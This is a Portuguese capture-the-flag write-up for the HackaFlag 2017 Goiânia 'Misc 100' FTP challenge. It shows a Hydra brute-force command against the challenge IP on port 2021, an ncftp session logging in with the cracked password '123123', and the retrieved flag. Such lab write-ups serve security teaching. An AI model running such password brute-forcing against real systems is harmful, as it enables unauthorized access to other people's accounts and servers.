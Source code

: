 ```yaml
---
title: HackaFlag 2017 - Goiania MISC 100
date: 2017-03-09 09:36:00 Z
---
```


**Categoria:** Misc
**Pontos:** 100
**Descrição:**

>FTP
O administrador é o usuario, preocupado com a segurança, 
sabe os riscos de deixar os serviços como por exemplo 
ftp e ssh desatualizados, por vezes, senhas fracas tambem 
são grandes portas de entrada. IP: 45.55.184.240

Autor: @chucky


# Write-up:


Após um SCAN, detectamos o FTP na porta: 2021


Vamos usar Brute-force e encontra essa senha, para isso
você pode usar o Hydra ou o Nozzlr (https://github.com/intrd/nozzlr)

```bash
# hydra -l administrador -P senhas.txt 45.55.184.240 ftp -s 2021
```

Descobrindo a senha, logue no FTP:

```bash
# ncftp -u usuario 45.55.184.240 -P 2021

Password requested by 45.55.184.240 for user "usuario".

    Password required for usuario

Password: 123123

User usuario logged in
ncftp /home/usuario > ls
.bash_history   .bash_logout    .bashrc         flag.txt        .profile        .viminfo
ncftp /home/usuario > get flag.txt 
flag.txt:                                        30,00/ 29,00 B  172,05 B/s   
```

```bash
# cat flag.txt

HACKAFLAG{Eu_MaNJo_DoS_BrUt}
```
